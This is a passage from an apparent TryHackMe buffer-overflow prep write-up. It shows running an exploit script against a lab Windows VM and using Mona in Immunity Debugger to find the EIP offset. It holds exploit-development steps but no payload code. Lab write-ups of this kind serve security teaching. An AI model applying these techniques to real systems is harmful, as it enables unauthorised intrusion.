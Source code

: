 Above I've just set the IP to my Win7 VM running the ocsp.exe, and I've pasted my 2000 byte payload from Mona in to the payload variable.

### Pyhton Exploit Script

Now we can run the script:

```text
root@kali:/home/kali/thm/bofprep# python exploit.py 
Sending evil buffer...
Done!
```

Back to Immunity, and use Mona to find the number of bytes that caused the crash:

```text
!mona findmsp -distance 2000
```

![bofprep-findmsp](/assets/images/2021-03-08-23-00-23.png)

Check the text file Mona created from our working directory:

![bofprep-eipoffset](/assets/images/2021-03-08-23-02-27.png)
